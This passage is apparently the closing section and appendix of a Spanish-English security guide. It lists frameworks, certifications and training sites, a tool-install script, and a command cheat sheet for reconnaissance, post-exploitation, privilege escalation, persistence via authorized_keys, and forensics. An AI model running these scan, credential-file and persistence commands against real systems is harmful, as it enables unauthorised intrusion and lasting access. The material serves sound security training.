- **NIST Cybersecurity Framework**: https://www.nist.gov/cyberframework
- **ISO 27001**: https://www.iso.org/isoiec-27001-information-security.html  
- **CIS Controls**: https://www.cisecurity.org/controls/
- **OWASP Top 10**: https://owasp.org/www-project-top-ten/

#### Penetration Testing Standards
- **PTES**: http://www.pentest-standard.org/
- **OSSTMM**: https://www.isecom.org/OSSTMM.3.pdf
- **NIST SP 800-115**: https://csrc.nist.gov/publications/detail/sp/800-115/final

#### Linux Security Hardening
- **CIS Debian Linux Benchmark**: https://www.cisecurity.org/benchmark/debian_linux
- **STIG Guidelines**: https://public.cyber.mil/stigs/
- **Linux Hardening Guide**: https://github.com/imthenachoman/How-To-Secure-A-Linux-Server

### Training y Certificaciones

#### Recommended Certifications
- **OSCP** - Offensive Security Certified Professional
- **CEH** - Certified Ethical Hacker  
- **CISSP** - Certified Information Systems Security Professional
- **GSEC** - GIAC Security Essentials
- **Linux+** - CompTIA Linux+ 

#### Free Training Resources
- **VulnHub**: https://www.vulnhub.com/
- **TryHackMe**: https://tryhackme.com/
- **Hack The Box**: https://www.hackthebox.eu/
- **SANS Cyber Aces**: https://cyberaces.org/

### Herramientas de Código Abierto

#### Vulnerability Scanners
```bash
# Nmap - Network discovery and security auditing
nmap -sS -sV -O --script vuln target.com

# OpenVAS - Comprehensive vulnerability scanner
openvas-start
openvas-cli -T target.com

# Nikto - Web vulnerability scanner
nikto -h http://target.com -C all
```

#### Penetration Testing Distributions
- **Kali Linux**: https://www.kali.org/
- **Parrot Security**: https://www.parrotsec.org/
- **BlackArch**: https://blackarch.org/

#### Custom Tools Repository
```bash
# Crear repositorio de herramientas personalizadas
mkdir -p /opt/security-tools/{scripts,wordlists,exploits,reports}

# Script de instalación de herramientas
cat > /opt/security-tools/install_tools.sh << 'EOF'
#!/bin/bash

echo "[+] Instalando herramientas de seguridad..."

# Basic tools
apt-get update
apt-get install -y nmap gobuster dirb nikto sqlmap hydra john hashcat \
    metasploit-framework burpsuite zaproxy wireshark tcpdump \
    lynis rkhunter chkrootkit ossec-hids fail2ban ufw \
    git curl wget python3-pip golang-go

# Go tools
go install -v github.com/projectdiscovery/nuclei/v2/cmd/nuclei@latest
go install -v github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest
go install -v github.com/projectdiscovery/httpx/cmd/httpx@latest

# Python tools
pip3 install impacket pycrypto requests beautifulsoup4

# Custom wordlists
cd /opt/security-tools/wordlists
wget https://github.com/danielmiessler/SecLists/archive/master.zip
unzip master.zip && rm master.zip

echo "[+] Instalación completada!"
EOF

chmod +x /opt/security-tools/install_tools.sh
```

---

## Apéndices

### Apéndice A: Comandos de Referencia Rápida

#### Network Reconnaissance
```bash
# Port scanning
nmap -sS -sV -O -A target.com
nmap -sU --top-ports 1000 target.com
masscan -p1-65535 target.com --rate=1000

# Service enumeration  
enum4linux -a target.com
smbclient -L //target.com -N
rpcclient -U "" target.com -N

# Web reconnaissance
gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt
nikto -h http://target.com
whatweb http://target.com
```

#### Post-Exploitation
```bash
# System information
uname -a; whoami; id
ps aux; ss -tulpn; mount
cat /etc/passwd; cat /etc/group

# Privilege escalation
sudo -l
find / -perm -4000 2>/dev/null
getcap -r / 2>/dev/null
crontab -l; ls -la /etc/cron*

# Persistence
ssh-keygen -t rsa -f /tmp/key
echo "public_key" >> ~/.ssh/authorized_keys
```

#### Forensics y Analysis
```bash
# Log analysis
grep -r "authentication failure" /var/log/
grep -r "sudo.*COMMAND" /var/log/
grep -r "ssh.*Accepted\|ssh.*Failed" /var/log/

# File analysis
find / -type f -mtime -1 2>/dev/null
find / -type f -name "*.bak" -o -name "*.old" 2>/dev/null
strings /path/to/binary | grep -i pass
```
